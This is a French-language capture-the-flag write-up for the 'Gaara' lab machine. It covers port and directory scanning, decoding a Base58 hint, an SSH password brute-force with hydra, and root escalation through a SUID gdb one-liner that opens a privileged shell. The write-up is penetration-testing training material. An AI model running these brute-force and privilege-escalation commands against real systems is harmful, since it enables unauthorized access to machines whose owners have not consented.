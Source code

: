 # GAARA

    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.247.142 -e tun0 > ports_gaara.txt
    sudo nmap -A 192.168.247.142

Scans classiques.

    22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
    | ssh-hostkey:
    |   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
    |   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
    |_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
    80/tcp open  http    Apache httpd 2.4.38 ((Debian))
    |_http-server-header: Apache/2.4.38 (Debian)
    |_http-title: Gaara
 
 Le site web nous accueille sur une image prenant tout l'écran, il semble ne rien y avoir d'autre. J'ai lancé quelques scans sur les sous-dossiers en parallèle :
 

    feroxbuster -u http://192.168.247.142
    feroxbuster -u http://192.168.247.142 -w /usr/share/wordlists/dirb/big.txt
    feroxbuster -u http://192.168.247.142 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt

En dehors des fichiers classiques, on remarque un dossier **/Cryoserver/**

    curl http://192.168.247.142/Cryoserver

On obtient une page quasiment vide mais avec trois dossiers tout à la fin :

    curl http://192.168.247.142/Temari
    curl http://192.168.247.142/Kazekage
    curl http://192.168.247.142/iamGaara

Chaque page ne contient qu'un énorme texte, mais dans la page **"iamGaara"** se trouve un morceau étrange :

    f1MgN9mTf9SNbzRygcU

En allant sur https://www.dcode.fr et en analysant le texte encodé, les cinq premiers résultats sont :
- Periodic Table Cipher
- Base 58
- Base62 Encoding
- Substitution Cipher
- Shift Cipher

En testant dans l'ordre, le premier choix ne donne rien mais le deuxième choix donne **"gaara:ismyname"** et cela m'a tout de suite fait penser à un couple clé / mot de passe pour le SSH.

    ssh -l gaara 192.168.247.142

Le mot de passe n'a pas marché mais cela m'a donné l'idée de tenter de bruteforcer le port 22.

    hydra -vV -f -l gaara -P /usr/share/wordlists/rockyou.txt 192.168.247.142 -s 22 ssh

Cela fonctionne et on obtient le mot de passe.

    ssh -l gaara 192.168.247.142

Le flag utilisateur se trouve directement dans le dossier où on atterrit.

### Élévation de privilèges :

Les simples vérifications habituelles suffisent :

    sudo -l 
    find / -perm /4000 2>/dev/null

Rien d'intéressant pour la première commande, mais GDB m'a sauté aux yeux pour la deuxième. Il suffit d'appliquer la commande classique pour ce cas de figure.

Voir : https://gtfobins.github.io/gtfobins/gdb/#suid

    ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit

    ls /root

    cat /root/proof.txt
